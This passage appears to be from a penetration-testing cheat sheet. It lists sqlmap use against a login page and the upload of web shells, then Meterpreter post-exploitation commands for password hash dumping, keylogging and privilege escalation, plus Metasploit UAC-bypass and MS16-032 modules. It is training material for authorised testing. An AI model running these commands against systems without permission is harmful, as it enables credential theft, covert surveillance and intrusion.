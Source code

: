 ### Web Application Attacks

#### SQL Injection Testing

```bash
# SQLmap for automated testing
sqlmap -u "http://192.168.100.20/login.php" --forms --batch

# Manual testing with Burp Suite
# Intercept requests and modify parameters
```

#### File Upload Vulnerabilities

```bash
# Test file upload functionality
# Upload web shells like:
# - Simple ASPX shell
# - PHP reverse shell
# - JSP backdoor
```

## 🏴‍☠️ Phase 4: Post-Exploitation

### Meterpreter Basics

```bash
# Basic system info
sysinfo
getuid

# Privilege escalation
getsystem

# Password dumping
hashdump

# Keylogging
keyscan_start
keyscan_dump
```

### Privilege Escalation Techniques

#### Windows Kernel Exploits

```bash
# Use local exploit suggester
run post/multi/recon/local_exploit_suggester

# Common privilege escalation modules
use exploit/windows/local/bypassuac
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```
